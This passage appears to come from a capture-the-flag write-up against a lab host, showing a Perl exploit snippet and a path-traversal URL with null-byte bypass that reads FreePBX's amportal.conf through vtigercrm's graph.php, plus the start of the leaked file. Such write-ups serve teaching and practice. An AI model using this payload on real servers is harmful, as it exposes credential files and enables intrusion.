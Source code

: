 ```

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {
 
print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";
 
}
else { 
print "\n[-] not successful\n";
}
```
Primarily, we are interested in `#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`.

From our earlier Dirbuster search, we've already seen a directory `/vtigercrm`.
Going to our web browser, we go to `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`, but somehow got redirected to `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%2500&module=Accounts&action`, with the error message `Sorry! Attempt to access restricted file.` displayed. We manually change the URL again, and this time, get a valid HTML page. However, it's just a chunk of text and we see the page source to see a formated version.
```

```
# This file is part of FreePBX.
#
#    FreePBX is free software: you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation, either version 2 of the License, or
#    (at your option) any later version.
#
#    FreePBX is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#